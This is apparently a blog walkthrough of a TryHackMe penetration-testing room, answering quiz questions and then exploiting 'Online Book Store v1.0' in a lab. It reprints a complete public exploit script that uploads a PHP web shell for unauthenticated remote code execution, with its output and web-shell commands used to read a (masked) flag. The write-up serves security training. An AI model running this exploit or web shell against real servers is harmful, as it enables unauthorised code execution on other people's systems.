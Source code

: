 ```yaml
---
title: "Exploit Vulnerabilities Walkthrough [TryHackMe]"
date: "2021-10-24"
tags: 
  - "ctf"
  - "exploit"
  - "hacking"
  - "pentesting"
  - "tryhackme"
  - "vulnerabilities"
  - "vulnerability"
---
```


I am going through the newly released `Jr Penetration Tester` Learning Path and I enjoyed this quick but cool challenge. I figured why not write a short and sweet walkthrough :)

# Automated vs Manual Vulnerability Research

In this section we take a look at a brief introduction of vulnerability scanning. There is some basic information about Nessus Vulnerability Scanner and also a look at the difference between doing an automated scan vs a manual scan.

## Answers:

**You are working close to a deadline for your penetration test and need to scan a web application quickly. Would you use an automated scanner? (Yay/Nay)**  
**Yay**. Time is a precious resource, you have to use the tools available to you and leverage to get the job done in time!

**You are testing a web application and find that you are able to input and retrieve data in a database. What vulnerability is this?**  
**Injection**. This could be command injection or may be SQLi.

**You manage to impersonate another user. What vulnerability is this?**  
**Broken Access Control**. Somewhere we are not sanitizing user input...

# Finding Manual Exploits

Here we are looking at different tools / resources that we can leverage to get the work done!

## Answers:

**What website would you use as a security researcher if you wanted to upload a Proof of Concept?**  
**GitHub**. We can share codes and other such things there :)

**You are performing a penetration test at a site with no internet connection. What tool could you use to find exploits to use?**  
**Searchsploit**.

# Example of Manual Exploitation

Here it is shared that many exploits available to us may not be ready to go from the get go and may require modification.

## Answers:

**What type of vulnerability was used in this attack?**  
**Remote Code Execution**. The example showed us that we are able to run commands remotely.

# Practical: Manual Exploitation

Lets put all these information in to practice!

Here we are given a target website. Mine was located at `10.10.9.18` .

I loaded `http://10.10.9.18` through the web browser. I found the name and version of the web app in the right hand side of the page. We can take advantage of the disclosure of the app name and version number to see if we can find any vulnerabilities related to it.

I did a quick search for `Online Book Store v1.0 exploit` . After looking through some of the results, I found this one for an unauthenticated RCE in Exploit-DB: [https://www.exploit-db.com/exploits/47887](https://www.exploit-db.com/exploits/47887)

```Python
# Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
# Google Dork: N/A
# Date: 2020-01-07
# Exploit Author: Tib3rius
# Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Ubuntu 16.04
# CVE: N/A

import argparse
import random
import requests
import string
import sys

parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()

url = args.url.rstrip('/')
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
print('> Verifying shell upload...')
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
    if launch_shell.lower() == 'y':
        while True:
            cmd = str(input('RCE $ '))
            if cmd == 'exit':
                sys.exit(0)
            r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
            print(r.text)
else:
    if r.status_code == 200:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
    else:
        print('> Web shell failed to upload! The web server may not have write permissions.')

```

Let's go over at the high level of what the code is doing...

- It takes the URL of the site as a parameter.
- It creates a random file name.
- This random file contains the simple code `<?php echo shell_exec($_GET[\'cmd\']); ?>`, which runs our web shell. This code literally just runs whatever input we give it as a command.
- It leverages the vulnerability to push this file that contains a very simple web shell.
- The application will now interpret the file as code and run our code. RCE!

## Running The Exploit

After we download the exploit, I didn't see a need to change or adjust any of the code. It looked pretty straight forward. To run it we give the command python ./47887.py http://10.10.9.18/, here is what that the output looks like:

```Python
python ./47887.py http://10.10.9.18/         
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.9.18/bootstrap/img/2zQ3veqXvS.php
> Example command usage: http://10.10.9.18/bootstrap/img/2zQ3veqXvS.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
Traceback (most recent call last):
  File "./47887.py", line 35, in <module>
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
  File "<string>", line 1, in <module>
NameError: name 'y' is not defined
```

From the output we can see that the code crashed, but that is not a worry to us since it looks like it was successful at uploading the web shell. This next part of the code is only used to allow us to interact with the website from this provided command line.

Next step is to test the web shell in the browser, let's just run this url and see what we get:

```Sh
http://10.10.9.18/bootstrap/img/2zQ3veqXvS.php?cmd=whoami
#Output:
www-data
```

Nice, let's do a bit more digging:

```Sh
#Command
http://10.10.9.18/bootstrap/img/2zQ3veqXvS.php?cmd=lsb_release+-a
#Output
Distributor ID: Ubuntu Description: Ubuntu 18.04.6 LTS Release: 18.04 Codename: bionic

#Command
http://10.10.9.18/bootstrap/img/2zQ3veqXvS.php?cmd=pwd
#Output
/var/www/html/bootstrap/img

#Command
http://10.10.9.18/bootstrap/img/2zQ3veqXvS.php?cmd=ls
#Output
2zQ3veqXvS.php OyWjgNLIbq.php android_studio.jpg beauty_js.jpg c_14_quick.jpg c_sharp_6.jpg doing_good.jpg flag.txt img1.jpg img2.jpg img3.jpg kotlin_250x250.png logic_program.jpg mobile_app.jpg pro_asp4.jpg pro_js.jpg unnamed.png web_app_dev.jpg
```

It looks like within this directory we have the flag.txt, which is what we are looking for. Let's run the following `http://10.10.9.18/bootstrap/img/2zQ3veqXvS.php?cmd=cat+flag.txt`

```Sh
#Output
`THM{B***_******G}`
```

As much I would love to just give you the flag, you need to put the skills into practice. If this walkthrough is not clear enough, reach out so you can do this too :)

# RECAP

Here we took advantage the application name and version were displayed to us, some nice and easy OSINT. From there we researched to see if there was any known vulnerabilities for this app+version, then we found the exploit which allowed use to run code on the server. Updating the application would probably have more than likely prevented this.
